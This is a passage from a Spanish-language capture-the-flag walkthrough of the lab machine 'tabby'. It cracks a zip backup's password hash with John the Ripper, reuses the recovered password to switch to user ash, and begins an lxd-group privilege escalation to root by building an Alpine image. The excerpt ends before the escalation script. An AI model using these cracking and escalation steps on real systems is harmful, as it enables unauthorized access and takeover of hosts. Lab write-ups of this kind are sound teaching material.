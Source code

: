 ```bash
```

- Crack del hash

```bash
john --w=/usr/share/wordlists/rockyou.txt hashzip

john --show hashzip
16162020_backup.zip:admin@it::16162020_backup.zip:var/www/html/news.php, var/www/html/favicon.ico, var/www/html/Readme.txt, var/www/html/logo.png, var/www/html/index.php:16162020_backup.zip

1 password hash cracked, 0 left
```

Como vemos la password es `admin@it`

-----------------------
# ESCALADA A ROOT

- Probamos con la contraseña extraída contra el usuario `ash` 

```bash
tomcat@tabby:/tmp$ su ash
Password: 
ash@tabby:/tmp$ whoami
ash
```

Lo siguiente es hacer la escalada de privilegios a `root`

- Ejecutamos comandos tipicos de reconocimiento

```bash
ash@tabby:/tmp$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

Como vemos el usuario `ash` esta dentro del grupo `lxd`, basicamente esto nos permitirá la creación de contenedores y haciendo uso de monturas dentro de ellos podremos ver/modificar y ganar el acceso completo a la maquina, en este caso he usado un script automatizado que me devuelve una bash instantánea.

- Descargar repositorio `alpine` en nuestra maquina atacante debido a que dentro de la maquina victima no tenemos conexión (**Ejecutar todo como usuario root**)

```bash
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
bash build-alpine
```

- Se nos quedara un archivo tal que así

```bash
alpine-v3.20-x86_64-20240922_0946.tar.gz
```

- El script que vamos a utilizar  es el siguiente

